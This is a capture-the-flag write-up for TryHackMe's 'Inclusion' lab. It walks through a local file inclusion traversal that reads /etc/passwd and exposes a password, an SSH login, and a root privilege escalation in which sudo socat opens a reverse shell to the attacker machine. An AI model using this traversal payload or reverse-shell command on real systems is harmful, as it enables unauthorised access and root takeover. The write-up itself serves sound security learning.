 # Inclusion writeup
[Link to the CTF on TryHackMe](https://tryhackme.com/room/inclusion)

# Information about the CTF
> A beginner level LFI challenge

Attacker IP = 10.10.38.168
Target IP = 10.10.141.135  
Machine Type = AttackBox

# How to solve it
## Task 1) user flag
Start by entering the target IP inside your browser

Now click around the buttons and watch the url.  
`http://10.10.141.135/article?name=hacking`

Seems like it could be vulnerable to a LFI attack.

> LFI vulnerability = An attacker can use Local File Inclusion (LFI) to trick the web application into exposing or running files on the web server

Lets try a simple directory traversal to find the `/etc/passwd`
```url
http://10.10.141.135/article?name=../../../../etc/passwd
```

This will show the contents of the `/etc/passwd` directory. Since this output is very cluttered, let's use CyberChef to make it look better.

Click [here](https://gchq.github.io/CyberChef/#recipe=Split('%20','%5C%5Cn')) for my recipe, and then paste the contents from the `/etc/passwd`

By a quick look, we can see a password is commented out:  
`#falconfeast:<Find_this>`

The password will be shown inside the `<Find_this>` 

Now try to SSH into the target machine using the name and password
```console
berkankutuk@thm:~$ ssh falconfeast@10.10.141.135
```

Aaand we are in! :D

Let's check what we have by running `ls`  
```console
falconfeast@inclusion:~$ ls
articles  user.txt
```
Ah, the user.txt file! Let's see the contents of it.
```console
falconfeast@inclusion:~$ cat user.txt
...
```

This should give you the user flag!

## Task 2) root flag
Now to the good part, privilege escalation!

Lets try running the `sudo -l` command.

`-l` = this option will list the allowed (and forbidden) commands for the invoking user

```console
falconfeast@inclusion:~$ sudo -l

Matching Defaults entries for falconfeast on inclusion:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User falconfeast may run the following commands on inclusion:
    (root) NOPASSWD: /usr/bin/socat
```

As we can see in the output, falconfeast might be able to run the `/usr/bin/socat` as the root. Lets see how we can make use of this to elevate our priviliges. 

For this, i'll search for 'socat' in [GTFOBins](https://gtfobins.github.io/gtfobins/socat/) which contains a list of Unix binaries that can be used to bypass local security restrictions in misconfigured systems.

GTFOBins gave me some options, but we will be usint the "Reverse Shell" one.

Start by entering this command inside a terminal in your attacker machine  
```socat file:`tty`,raw,echo=0 tcp-listen:12345 ```

Now enter the following command inside the terminal for the target machine.  
```socat tcp-connect:$RHOST:$RPORT exec:/bin/sh,pty,stderr,setsid,sigint,sane```  
Which in our case will be  
```sudo socat tcp-connect:10.10.38.168:12345 exec:/bin/sh,pty,stderr,setsid,sigint,sane```

Go back to your attacker machine to see the magic :D
```console
root@ip-10-10-38-168:~# socat file:`tty`,raw,echo=0 tcp-listen:12345
/bin/sh: 0: can't access tty; job control turned off
# 
```

Lets check who we are!
```console
# $ whoami
root
```
Beautiful! 

Lets move to the `/root` directory and see its contents
```console
# $ cd /root | ls
root.txt
```

We have the root.txt file! Lets open it
```console
root:~$ cat root.txt
...
```

Congratulations, you now have the root flag. :)